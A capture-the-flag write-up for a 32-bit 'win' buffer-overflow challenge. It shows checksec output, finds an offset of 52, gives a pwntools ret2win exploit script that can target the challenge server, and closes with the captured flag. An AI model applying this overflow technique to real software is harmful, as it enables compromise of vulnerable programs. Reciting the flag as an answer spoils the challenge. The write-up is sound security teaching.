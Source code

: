 
This write up is for the win pwn challenge.

The first thing I am going to do is to run both file and checksec to see the basic information and protections on the binary.
```
*] '/home/kali/Downloads/CWE2025/real/win'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No

```
After putting into ghidra I  can see that the program reads my input into a buffer without checking the size. This immediately led to a buffer overflow to a win function. Because there is no PIE I can just use the address of win found in ghidra.

I used cyclic in pwndbg to find my offset of 52
I then created my python script to solve 

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './win' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1300  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    win = 0x080491a6
    payload = b''
    payload += b'A' * 52 
    payload += p32(win)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()


```

CWE{no_stack_smashing_here_Nl8VyJ4C}

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTgxNzk5OTc1OSwtMTEyMjAxNDAwMV19
-->
